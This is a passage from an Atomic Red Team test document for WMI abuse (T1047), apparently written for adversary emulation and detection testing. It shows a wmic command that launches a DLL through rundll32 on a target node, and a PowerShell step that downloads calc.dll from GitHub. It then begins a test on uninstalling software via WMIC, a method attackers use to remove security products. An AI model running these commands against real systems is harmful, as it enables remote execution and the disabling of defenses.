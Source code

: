 | Name                | Description                  | Type   | Default Value                                                |
| ------------------- | ---------------------------- | ------ | ------------------------------------------------------------ |
| node                | Ip Address                   | string | 127.0.0.1                                                    |
| dll_to_execute      | Path to DLL.                 | string | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;calc.dll |
| function_to_execute | Name of DLL function to call | string | StartW                                                       |

#### Attack Commands: Run with `command_prompt`!

```cmd
wmic /node:#{node} process call create "rundll32.exe \"#{dll_to_execute}\" #{function_to_execute}"
```

#### Cleanup Commands:

```cmd
taskkill /f /im calculator.exe
```

#### Dependencies: Run with `powershell`!

##### Description: DLL with function to execute must exist on disk at specified location (#{dll_to_execute})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{dll_to_execute}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1047/bin/calc.dll?raw=true" -OutFile "#{dll_to_execute}"
```

<br/>
<br/>

## Atomic Test #10 - Application uninstall using WMIC

Emulates uninstalling applications using WMIC. This method only works if the product was installed with an msi file. APTs have been seen using this to uninstall security products.

**Supported Platforms:** Windows

**auto_generated_guid:** c510d25b-1667-467d-8331-a56d3e9bc4ff

#### Inputs:

| Name    | Description                                                                  | Type   | Default Value |
| ------- | ---------------------------------------------------------------------------- | ------ | ------------- |
| node    | Computer the action is being executed against but defaults to the localhost. | string | 127.0.0.1     |
| product | Enter the product name being uninstalled. This will default to TightVNC.     | string | Tightvnc      |
